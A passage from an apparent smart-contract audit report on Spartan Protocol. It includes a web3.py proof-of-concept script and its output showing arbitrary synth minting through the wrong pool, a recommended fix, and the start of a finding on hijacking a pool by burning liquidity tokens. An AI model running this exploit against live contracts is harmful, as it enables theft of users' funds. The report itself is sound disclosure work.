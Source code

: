 Here's a web3.py script of minting arbitrary `Synth` in a pool.
For simplicity, two pools are set with the assumption that link is 10x expensive than dai.

```python
sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(link_pool.address, sparta_amount).transact({'from': user})
link_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from link pool:', after_link_synth - initail_link_synth)

sparta_amount = 100 * 10**18
initail_link_synth = link_synth.functions.balanceOf(user).call()
base.functions.transfer(dai_pool.address, sparta_amount).transact({'from': user})
dai_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
after_link_synth = link_synth.functions.balanceOf(user).call()

print('get link synth amount from dai pool:', after_link_synth - initail_link_synth)

```

The log of the above script
```solidity
get link synth amount from link pool: 97078046905036524413
get link synth amount from dai pool: 970780469050365244136
```
Recommend Checking the provided synth's underlying token in `mintSynth`
```solidity
require(iSYNTH(synthOut).LayerONE() == TOKEN, "invalid synth");
```

**[verifyfirst (Spartan) confirmed](https://github.com/code-423n4/2021-07-spartan-findings/issues/20#issuecomment-883837548):**
 > We agree and appreciate this finding being valid high risk issue.

## [[H-10] Hijack token pool by burning liquidity token](https://github.com/code-423n4/2021-07-spartan-findings/issues/38)
_Submitted by jonah1005_

`Pool` allows users to burn lp tokens without withdrawing the tokens. This allows the hacker to mutate the pools' rate to a point that no one can get any lp token anymore (even if depositing token).

The liquidity tokens are calculated at `Utils:calcLiquidityUnits`
```solidity
            // units = ((P (t B + T b))/(2 T B)) * slipAdjustment
            // P * (part1 + part2) / (part3) * slipAdjustment
            uint slipAdjustment = getSlipAdustment(b, B, t, T);
            uint part1 = t*(B);
            uint part2 = T*(b);
            uint part3 = T*(B)*(2);
            uint _units = (P * (part1 + (part2))) / (part3);
            return _units * slipAdjustment / one;  // Divide by 10**18
```
where `P` stands for `totalSupply` of current Pool. If `P` is too small (e.g, 1) then all the units would be rounding to 0.
